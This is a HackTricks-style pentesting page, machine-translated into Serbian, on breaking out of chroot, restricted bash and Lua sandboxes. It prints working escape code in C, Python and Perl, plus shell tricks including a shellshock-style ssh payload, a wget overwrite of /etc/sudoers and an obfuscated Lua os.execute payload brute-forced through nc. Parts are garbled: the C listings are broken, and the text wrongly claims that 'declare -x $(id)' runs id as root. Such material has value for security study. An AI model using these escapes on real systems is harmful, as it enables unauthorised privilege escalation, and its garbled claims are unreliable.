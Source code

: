 # Escaping from Jails

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **GTFOBins**

**Pretražite na** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **da li možete izvršiti bilo koji binarni fajl sa "Shell" svojstvom**

## Bekstvo iz Chroot-a

Sa [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Chroot mehanizam **nije namenjen** za odbranu od namernog menjanja od strane **privilegovanih** (**root**) **korisnika**. Na većini sistema, chroot konteksti se ne stapaju pravilno i chroot-ovani programi **sa dovoljnim privilegijama mogu izvršiti drugi chroot da bi pobegli**.\
Obično to znači da da biste pobegli, morate biti root unutar chroot-a.

{% hint style="success" %}
**Alat** [**chw00t**](https://github.com/earthquake/chw00t) je napravljen da zloupotrebi sledeće scenarije i pobegne iz `chroot`-a.
{% endhint %}

### Root + Trenutni radni direktorijum

{% hint style="warning" %}
Ako ste **root** unutar chroot-a, možete pobeći tako što ćete kreirati **još jedan chroot**. Ovo je moguće jer dva chroot-a ne mogu postojati istovremeno (u Linux-u), pa ako kreirate folder, a zatim **kreirate novi chroot** u tom novom folderu, a vi se nalazite **izvan njega**, sada ćete biti **izvan novog chroot-a** i stoga ćete biti u FS-u.

Ovo se dešava jer chroot obično NE menja vaš trenutni radni direktorijum na određeni, tako da možete kreirati chroot, ali biti izvan njega.
{% endhint %}

Obično nećete pronaći binarni fajl `chroot` unutar chroot zatvora, ali **možete kompajlirati, otpremiti i izvršiti** binarni fajl:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

</details>

### Root + Sačuvani fd

{% hint style="warning" %}
Ovo je slično kao i prethodni slučaj, ali u ovom slučaju **napadač čuva file deskriptor za trenutni direktorijum** i zatim **kreira chroot u novom folderu**. Na kraju, pošto ima **pristup** tom **FD** **van** chroot-a, pristupa mu i **izlazi**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD može biti prosleđen preko Unix Domain Sockets, pa:

* Kreirajte child proces (fork)
* Kreirajte UDS tako da roditelj i dete mogu da komuniciraju
* Pokrenite chroot u child procesu u drugom folderu
* U roditeljskom procesu, kreirajte FD foldera koji je van novog chroot-a deteta
* Prosledite tom FD-u detetu koristeći UDS
* Dete promeni direktorijum na taj FD, i zato što je van svog chroot-a, ono će izaći iz zatvora

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Montirajte root uređaj (/) u direktorijum unutar chroot-a
* Chroot u taj direktorijum

Ovo je moguće u Linuxu

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Montirajte procfs u direktorijum unutar chroot-a (ako već nije)
* Potražite pid koji ima drugačiji root/cwd unos, kao što je: /proc/1/root
* Chroot u taj unos

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Kreirajte Fork (child proces) i chroot u drugi folder dublje u FS i CD na njega
* Iz roditeljskog procesa, premestite folder u kojem se nalazi child proces u folder prethodan chroot-u dece
* Ovaj child proces će se naći van chroot-a

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Ranije je korisnicima bilo moguće da debaguju svoje procese iz procesa samog sebe... ali ovo više nije moguće podrazumevano
* U svakom slučaju, ako je moguće, možete ptrace-ovati proces i izvršiti shellcode unutar njega ([vidi ovaj primer](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash Zatvori

### Enumeracija

Dobijte informacije o zatvoru:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### Izmena PATH-a

Proverite da li možete izmeniti promenljivu okruženja PATH.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Korišćenje vim-a

Vim je moćan tekstualni editor koji se često koristi u Linux okruženju. Može se koristiti za uređivanje fajlova, ali takođe može biti koristan alat za eskalaciju privilegija.

Da biste koristili vim za eskalaciju privilegija, prvo morate pronaći fajl koji ima postavljene privilegije koje vam omogućavaju da ga menjate. Zatim možete koristiti sledeće korake:

1. Pokrenite vim sa privilegijama korisnika koji ima dozvolu za izmenu fajla. Na primer, možete pokrenuti `sudo vim` da biste dobili privilegije root korisnika.
2. U vim-u, koristite komandu `:e /etc/passwd` da biste otvorili fajl `/etc/passwd` za uređivanje. Ovde možete uneti bilo koji fajl koji ima odgovarajuće privilegije.
3. Kada se fajl otvori, možete izmeniti njegov sadržaj. Na primer, možete dodati novog korisnika ili promeniti privilegije postojećeg korisnika.
4. Kada završite sa izmenama, sačuvajte fajl koristeći komandu `:wq`.

Napomena: Korišćenje vim-a za eskalaciju privilegija zahteva odgovarajuće privilegije i može biti opasno. Uvek budite pažljivi prilikom izmene sistema fajlova i koristite ovu tehniku samo u legitimne svrhe.

```bash
:set shell=/bin/sh
:shell
```

#### Kreiranje skripte

Proverite da li možete kreirati izvršnu datoteku sa sadržajem _/bin/bash_.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Dobijanje bash-a putem SSH-a

Ako pristupate putem SSH-a, možete koristiti ovaj trik da biste izvršili bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Deklaracija

Kada se bavimo eskalacijom privilegija, prvi korak je da proverimo da li imamo pristup ograničenom shell-u, kao što je Bash shell. Ograničeni shell obično ima neke funkcionalnosti onemogućene kako bi se sprečilo izvršavanje neovlašćenih komandi. Međutim, postoje načini da se izbegne ova ograničenja i dobije potpuni pristup sistemu.

Jedan od načina da se izbegne ograničeni shell je da se koristi `declare` komanda. Ova komanda se koristi za deklarisanje promenljivih i funkcija u shell-u. Međutim, može se koristiti i za izvršavanje proizvoljnog koda.

Da biste koristili `declare` komandu za eskalaciju privilegija, prvo morate proveriti da li je dostupna. Možete to uraditi tako što ćete pokrenuti `type declare` komandu. Ako je `declare` komanda dostupna, možete je koristiti za izvršavanje koda sa privilegijama korisnika koji je pokrenuo ograničeni shell.

Na primer, možete koristiti `declare` komandu da biste pokrenuli `id` komandu sa privilegijama korisnika `root`. To možete uraditi na sledeći način:

```bash
declare -x $(id)
```

Ova komanda će izvršiti `id` komandu i prikazati informacije o trenutnom korisniku sa privilegijama `root`.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Možete prebrisati na primer sudoers fajl.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Ostale trikove

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Takođe, može biti interesantna stranica:**

### Python zatvori

Trikovi za izlazak iz python zatvora na sledećoj stranici:

### Lua zatvori

Na ovoj stranici možete pronaći globalne funkcije do kojih imate pristup unutar lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval sa izvršavanjem komandi:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Neki trikovi za **pozivanje funkcija biblioteke bez korišćenja tačaka**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Enumeriraj funkcije biblioteke:

```bash
for k,v in pairs(string) do print(k,v) end
```

Napomena da svaki put kada izvršite prethodnu jednolinijsku komandu u **različitom lua okruženju, redosled funkcija se menja**. Stoga, ako želite da izvršite određenu funkciju, možete izvršiti napad metodom iscrpne pretrage učitavanjem različitih lua okruženja i pozivanjem prve funkcije biblioteke "le".

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Dobijanje interaktivne Lua ljuske**: Ako se nalazite unutar ograničene Lua ljuske, možete dobiti novu Lua ljusku (i nadamo se neograničenu) pozivanjem:

```bash
debug.debug()
```

### Reference

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdovi: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>

